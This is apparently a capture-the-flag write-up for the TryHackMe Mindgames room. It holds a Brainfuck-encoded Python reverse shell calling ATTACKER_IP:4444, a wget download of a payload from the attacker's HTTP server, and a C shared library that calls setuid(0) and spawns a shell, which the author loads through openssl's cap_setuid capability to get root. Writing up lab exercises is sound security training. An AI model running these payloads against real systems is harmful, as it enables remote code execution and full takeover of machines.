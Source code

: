 # Mindgames [THM](https://tryhackme.com/room/mindgames)

Let's see what this box has

```bash
nmap -sV -A -T4 -Pn 10.10.108.104

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-28 10:51 GMT
Nmap scan report for 10.10.108.104
Host is up (0.026s latency).
Not shown: 998 closed ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.11 seconds
```

Let's explore the service n port 80

```bash
curl http://10.10.108.104:80

<!DOCTYPE html>
<html>

<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>Mindgames.</title>
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" type="text/css" media="screen" href="/main.css">
    <script src="/main.js"></script>
</head>

<body onload="onLoad()">
    <h1>Sometimes, people have bad ideas.</h1>
    <h1>Sometimes those bad ideas get turned into a CTF box.</h1>
    <h1>I'm so sorry.</h1> <!-- That's a lie, I enjoyed making this. -->
    <p>Ever thought that programming was a little too easy? Well, I have just the product for you. Look at the example code below, then give it a go yourself!</p>
    <p>Like it? Purchase a license today for the low, low price of 0.009BTC/yr!</p>
    <h2>Hello, World</h2>
    <pre><code>+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.</code></pre>
    <h2>Fibonacci</h2>
    <pre><code>--[----->+<]>--.+.+.[--->+<]>--.+++[->++<]>.[-->+<]>+++++.[--->++<]>--.++[++>---<]>+.-[-->+++<]>--.>++++++++++.[->+++<]>++....-[--->++<]>-.---.[--->+<]>--.+[----->+<]>+.-[->+++++<]>-.--[->++<]>.+.+[-->+<]>+.[-->+++<]>+.+++++++++.>++++++++++.[->+++<]>++........---[----->++<]>.-------------.[--->+<]>---.+.---.----.-[->+++++<]>-.[-->+++<]>+.>++++++++++.[->+++<]>++....---[----->++<]>.-------------.[--->+<]>---.+.---.----.-[->+++++<]>-.+++[->++<]>.[-->+<]>+++++.[--->++<]>--.[----->++<]>+.++++.--------.++.-[--->+++++<]>.[-->+<]>+++++.[--->++<]>--.[----->++<]>+.+++++.---------.>++++++++++...[--->+++++<]>.+++++++++.+++.[-->+++++<]>+++.-[--->++<]>-.[--->+<]>---.-[--->++<]>-.+++++.-[->+++++<]>-.---[----->++<]>.+++[->+++<]>++.+++++++++++++.-------.--.--[->+++<]>-.+++++++++.-.-------.-[-->+++<]>--.>++++++++++.[->+++<]>++....[-->+++++++<]>.++.---------.+++++.++++++.+[--->+<]>+.-----[->++<]>.[-->+<]>+++++.-----[->+++<]>.[----->++<]>-..>++++++++++.</code></pre>
    <h2>Try before you buy.</h2>
    <form id="codeForm">
        <textarea id="code" placeholder="Enter your code here..."></textarea><br>
        <button>Run it!</button>
    </form>
    <p></p>
    <label for="outputBox">Program Output:</label>
    <pre id="outputBox"></pre>
</body>
</html>
```

*We have an encoder/decoder?*

Pasting the first code we found on page into the textarea 

> +[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.

We get back

> Hello, world

---

Unfortunately, I wasn't able to get more information from my further enumeration.

---


Using the content (encoded) on the page I was able to find out that the encoding language used on this site is [brainfuck](https://www.dcode.fr/brainfuck-language).

We can see that by decoding some of the content on the page.

> +[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.

> print("Hello, World")


So I went on to encode the following code

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ATTACKER_IP]",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

which gave me a reverse shell from the server

```bash
nc -nvlp 4444

listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.108.104] 35686
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(mindgames) gid=1001(mindgames) groups=1001(mindgames)

$ ls -ail /home
total 16
131074 drwxr-xr-x  4 root      root      4096 May 11  2020 .
     2 drwxr-xr-x 24 root      root      4096 May 11  2020 ..
539761 drwxr-xr-x  6 mindgames mindgames 4096 May 11  2020 mindgames
266998 drwxr-x---  5 tryhackme tryhackme 4096 May 11  2020 tryhackme

$ ls -ail /home/mindgames/
total 40
539761 drwxr-xr-x 6 mindgames mindgames 4096 May 11  2020 .
131074 drwxr-xr-x 4 root      root      4096 May 11  2020 ..
539770 lrwxrwxrwx 1 mindgames mindgames    9 May 11  2020 .bash_history -> /dev/null
539764 -rw-r--r-- 1 mindgames mindgames  220 May 11  2020 .bash_logout
539763 -rw-r--r-- 1 mindgames mindgames 3771 May 11  2020 .bashrc
539767 drwx------ 2 mindgames mindgames 4096 May 11  2020 .cache
539765 drwx------ 3 mindgames mindgames 4096 May 11  2020 .gnupg
539774 drwxrwxr-x 3 mindgames mindgames 4096 May 11  2020 .local
539762 -rw-r--r-- 1 mindgames mindgames  807 May 11  2020 .profile
539779 -rw-rw-r-- 1 mindgames mindgames   38 May 11  2020 user.txt
539769 drwxrwxr-x 3 mindgames mindgames 4096 May 11  2020 webserver

$ cat /home/mindgames/user.txt
thm{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```

---

Going after the root flag wasn't easy I went through [linux enumeration](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and wasn't lucky.

Looking at other write-ups I noticed the use of [linPeas.sh](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) so I went for it. LinPeas revealed 


```bash
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                 
Current capabilities:                                                                                        
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Shell capabilities:
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Files with capabilities:
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
```

Many tries and fails later I found this [gtfobins](https://gtfobins.github.io/gtfobins/openssl/#library-load)

```bash
Library load

It loads shared libraries that may be used to run code in the binary execution context.

    openssl req -engine ./lib.so
```

On my machine I created `openssl.c` which I then compiled to `openssl.so`

```bash
cat openssl.c

#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0);
    execl("/bin/sh", "sh", NULL);
}
```

```bash
gcc -fPIC -o openssl.o -c openssl.c
```

```bash
ls

total 16                                                                                                     
12452215 drwxr-xr-x 2 clobee 4096 Dec 28 18:19 .                                                             
10224705 drwxr-xr-x 3 clobee 4096 Dec 28 10:51 ..                                                            
12454536 -rw-r--r-- 1 clobee  122 Dec 28 18:18 openssl.c                                                     
12454535 -rw-r--r-- 1 clobee 1840 Dec 28 18:19 openssl.o
```

```bash                                                    
gcc -shared -o openssl.so -lcrypto openssl.o
```

```bash
ls                                                                            
total 32                                                                                                     
12452215 drwxr-xr-x 2 clobee  4096 Dec 28 18:19 .                                                            
10224705 drwxr-xr-x 3 clobee  4096 Dec 28 10:51 ..                                                           
12454536 -rw-r--r-- 1 clobee   122 Dec 28 18:18 openssl.c                                                    
12454535 -rw-r--r-- 1 clobee  1840 Dec 28 18:19 openssl.o                                                    
12454537 -rwxr-xr-x 1 clobee 16024 Dec 28 18:19 openssl.so   
```

I then started a HTTP server

```bash
python -m SimpleHTTPServer 8080 

Serving HTTP on 0.0.0.0 port 8080 ...                                                                        
10.10.151.253 - - [28/Dec/2020 18:24:06] "GET /openssl.so HTTP/1.1" 200 -  
```

and downloaded the `openssl.so` on the server

```bash
$ wget http://[ATTACKER_IP]:8080/openssl.so

--2020-12-28 18:24:04--  http://[ATTACKER_IP]:8080/openssl.so
Connecting to [ATTACKER_IP]:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16024 (16K) [application/octet-stream]
Saving to: ‘openssl.so’

     0K .......... .....                                      100%  618K=0.03s

2020-12-28 18:24:04 (618 KB/s) - ‘openssl.so’ saved [16024/16024]
```

```bash
$ chmod +x openssl.so

$ openssl req -engine ./openssl.so
id
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)

ls -ail /root
total 28
524292 drwx------  4 root root 4096 May 11  2020 .
     2 drwxr-xr-x 24 root root 4096 May 11  2020 ..
539760 lrwxrwxrwx  1 root root    9 May 11  2020 .bash_history -> /dev/null
525200 -rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
539771 drwxr-xr-x  3 root root 4096 May 11  2020 .local
525201 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
539701 drwx------  2 root root 4096 May 11  2020 .ssh
539775 -rw-r--r--  1 root root   38 May 11  2020 root.txt

cat /root/root.txt
thm{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```
